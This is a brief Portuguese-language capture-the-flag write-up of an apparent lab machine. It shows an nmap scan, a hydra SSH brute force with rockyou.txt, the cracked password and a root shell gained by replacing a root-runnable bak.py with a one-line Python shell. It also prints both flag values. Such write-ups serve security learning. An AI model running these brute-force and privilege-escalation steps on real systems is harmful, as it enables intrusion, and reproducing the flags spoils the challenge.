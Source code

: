 Ao inicar dei o nmap para ver as portas abertas 

    nmap -A -sV IP 

Encontrei as portas 22 e 80

Ao entrar na pagina web fui vizualizar o codigo fonte, assim encontrando o username Meliodas

Ao dar um gobuster encontrei apenas diretorios comuns e dentro do /robots.txt tinha apenas um comentario a rockyou que e um arquivo famoso para quebrar senhas usando hydra

    hydra -l meliodas -P rockyou.txt -t 4 -F -V 10.10.221.178 ssh

Encontrando a senha...

    [22][ssh] host: 10.10.221.178   login: meliodas   password: iloveyou1

Assim...

    username: meliodas
    pass: iloveyou1

ao fazer o connect ssh encontramos a primeira flag "user.txt"

    cat user.txt
    6d488cbb3f111d135722c33cb635f4ec

Dentro do sistema encontrei um arquivo chamado bak.py que nosso user Meliodas poderia executar como root, sendo assim e so acessar o site GTFobins e modificar por um script python

Bom, percebi que nao podiamos alterar o arquivo.py mas podiamos apaga-lo, entao..

    rm -rf bak.py
    echo 'import os;os.system("/bin/sh")' >> bak.py

Assim conseguindo acessando ao root

    cd root
    cat root.txt
    e8c8c6c256c35515d1d344ee0488c617

Finalizando o desafio..

    touch dannydev19.txt

FLAGS

    FLAG 1: 6d488cbb3f111d135722c33cb635f4ec
    FLAG 2: e8c8c6c256c35515d1d344ee0488c617